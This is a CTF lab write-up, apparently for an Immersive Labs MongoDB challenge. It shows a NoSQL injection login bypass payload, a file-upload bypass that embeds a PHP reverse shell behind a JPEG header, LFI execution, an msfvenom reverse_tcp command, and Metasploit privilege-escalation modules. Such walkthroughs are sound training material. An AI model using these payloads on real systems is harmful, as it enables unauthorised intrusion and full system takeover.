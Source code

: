 ```yaml
---
date: 2025-03-11
categories: [CTF, ImmersiveLabs]
title: "IML - MongoDB NoSQL Injection"
tags: ['gobuster', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'sqli', 'mongodb', 'nosqli']

description: "MongoDB NoSQL Injection - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - MongoDB NoSQL Injection

- Scan:

![image1](../resources/dc68505ba0864de89dcbc29127f8388e.png)

- Going to Port 80:

![image2](../resources/a7898c43ea7041698d258cb4e54b8357.png)

- We get a Login page and since this box is a MongoDB box, we can assume this is NoSqli

- Looking on:
<https://book.hacktricks.xyz/pentesting-web/nosql-injection>


![image3](../resources/c9def18806cf4472be56dc2ece822dd4.png)

**username\[\$ne\]=toto&password\[\$ne\]=toto**

- We need to see how the server crafts its authentication
- Open Burp Suite and capture the traffic from a login


![image4](../resources/a27c94f24a8c41c0afcd125882cd4ae2.png)

- Send this to the Repeater and change the authentication line

![image5](../resources/bfa8a8a7fb6e41628d11a6e18b6a68e9.png)

- Send it off and look at the Response (If this doesn't work - reset machine)

![image6](../resources/8bf395c7e7504e80aa048e02d2b92711.png)

**admin : Superhardpassword**

- Login with the credentials


![image7](../resources/d6631dba9b19474980bb6031b286edec.png)

- After trying to upload non jpeg files with a .jpeg extension and getting FAILED everytime, it's time to consider something else.
The jpeg header

- Since this Kali machine is closed off from the internet, we can search the machine itself for a jpeg image file:
```bash
find / -type f -name "\*.jpeg" 2>/dev/null

```

![image8](../resources/29bf84d6e48f48ca8ddf5362ec7eda7d.png)


![image9](../resources/7ef1dab00d0341a0a00afe4ac8944f61.png)

- Upload the thumbnail.jpeg and we get success:

![image10](../resources/fec7fe7f170c4c9c90b943774540a542.png)

- Through testing - all it needs to be successful is to have .jpeg at the end and for the data to start with:

![image11](../resources/b65bc279152b4a6293f90fb5cee5dc8b.png)

As show here:


![image12](../resources/26d3d3be75984cdf99a8f9e6ad2e5558.png)

- We can bruteforce for directories to see if we can execute the file (if we uploaded something malicious):
```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

```

![image13](../resources/61b9f6553bbf475e903c13677738c706.png)

- In /img:

![image14](../resources/a3527fc433964ac187cef8147bededf5.png)

- As this didn't lead to anything. I did another scan but with extensions this time:
```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php

```

![image15](../resources/e1c51a5287f84c94bb2851f546978d20.png)

- If we look at /test/php:

![image16](../resources/3a0220dc3cff4b11a1e1686ba6e89040.png)

- This is a LFI vulnerability:

![image17](../resources/8c9ca2bf342d4c53b31d3ee9b801d5a7.png)

We can access some of the mongodb file like mongod.conf and mongod.log


![image18](../resources/5200828d9e1c4f93a6a3909c7a0b0ba1.png)

As well as check what apps are running - /proc/self/cmdline


![image19](../resources/299d41fb79944563858602dc2d51812d.png)
- We can also see if we can get any ssh private keys
- But that didn't give much

- We can get to the /img directory (where the uploaded images were stored):

![image20](../resources/7aab26b12e66490cae891130a80b43a0.png)

- So the way I got this to work is:

- Upload a legitimate .jpg file
- Capture the request in Burp
- Send to Repeater

- Now remove all the jpeg data, **apart** from the first (JFIF) line
- Paste in the php reverse shell code under this line
(I used pentestmonkey's script - <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>)

- Also rename the filename so it ends with **.php.jpg**

- So it looks like this:

![image21](../resources/0e6e05be2b5a40918d63673f96224047.png)

Don't upload the php directly, and then try and add the JFIF line afterwards - it doesn't recognize it and will fail

- Send that request and you should get Successful

- Set up a nc listener on the port you specified in the script

- And in a new Burp request (captured from the LFI):
Go to /var/www/html/img/**\<image_name\>**.php.jpg


![image22](../resources/b7915beb3bbf44f88e8d9ed613b3fc83.png)

- And we got a shell:

![image23](../resources/eef72054242e4fb1b669d0d17cbdc442.png)

- Upgrade the shell:
/usr/bin/script -qc /bin/bash /dev/null

**<u>Priv Esc</u>**
- Querying MongoDB didn't give anything:

![image24](../resources/e334e020bbd54d808d8b9bca8b46f62e.png)

- After lots of enumerating - found nothing so to get root I did:

- Created a meterpreter payload:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.143.238 LPORT=8881 -f elf -o reverse.elf

```

![image25](../resources/0aedcd2630bb4e57a534c7bb2a975d38.png)

- Uploaded the payload to the target with python server and curl

- Once I got the meterpreter session back, I used the module - **multi/recon/local_exploit_suggester** to give me potential priv esc modules:

![image26](../resources/b93bca4bf16d4288883f1cd8e6f5a616.png)

- I then used the module - **exploit/linux/local/bpf_sign_extension_priv_esc** to get root and get the flag:

![image27](../resources/ade1d27ea346404fbd1956b4e57081f0.png)
